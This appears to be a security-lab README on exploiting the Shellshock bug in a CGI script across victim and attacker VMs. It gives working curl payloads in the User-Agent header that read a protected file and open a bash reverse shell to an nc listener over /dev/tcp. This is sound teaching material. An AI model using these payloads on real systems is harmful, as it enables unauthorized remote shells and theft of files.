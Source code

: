 ## Getting a Reverse Shell via Shellshock Attack

### Setup

Two VMs: the victim, and the attacker.

### Preparation

1. on the victim VM, copy the cgi script (myprog.cgi, located at the same folder as this README file) into /usr/lib/cgi-bin.

```console
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ sudo cp myprog.cgi /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
myprog.cgi
```

2. on the victim VM, change the cgi script's permission to 755.

```console
[05/16/22]seed@VM:~$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
[05/16/22]seed@VM:~$ ls -l /usr/lib/cgi-bin/myprog.cgi 
-rwxr-xr-x 1 root root 84 May 16 13:10 /usr/lib/cgi-bin/myprog.cgi
```

3. on the victim VM, use the browser to test the cgi web page works: type http://localhost/cgi-bin/myprog.cgi in the browser address bar. As shown in this screenshot:

![alt text](test-webpage.png "cgi page works")

4. on the victim VM, create a secret file in the /usr/lib/cgi-bin folder (note: you need sudo to create anything inside /usr/lib/cgi-bin/secret):

```console
[05/16/22]seed@VM:~$ cat /usr/lib/cgi-bin/secret 
This is a secret.
```

### Launch the Attack

5. on the victim VM, accessing the secret file directly from your browser won't work:

![alt text](accessing-secret-from-browser.png "can't access it directly")

6. on the victim VM, accessing the secret file using curl still doesn't work:

![alt text](accessing-secret-from-curl.png "can't access it via curl")

7. yet, on the victim VM, accessing the secret file via the cgi script works:

```console
[05/16/22]seed@VM:~$ curl -v http://localhost/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/cat secret;"
```

as the screenshot shows:
![alt text](accessing-secret-via-cgi.png "access it via cgi")

### Get a Reverse Shell

8. on the attacker VM, open a terminal window and in that window run *nc -lv 9090* to listen on port 9090.

![alt text](port-listening.png "listen on port 9090")

9. on the attacker VM, open a different terminal window and run this: (remember to replace 172.16.77.128 with the victim VM's ip address, and replace 172.16.77.129 with the attacker VM's ip address)

```console
curl -v http://172.16.77.128/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/bash -i > /dev/tcp/172.16.77.129/9090 0<&1 2>&1"
```

before pressing enter:

![alt text](attack-before-enter.png "before pressing enter")

after pressing enter:

![alt text](attack-after-enter.png "after pressing enter")

10. now switch to the *nc* terminal window, and we see the reverse shell is created:

![alt text](reverse-shell-success-p1.png "reverse shell created")

and it's confirmed via the *ifconfig* command.

![alt text](reverse-shell-success-p2.png "confirm that the reverse shell indeed created")

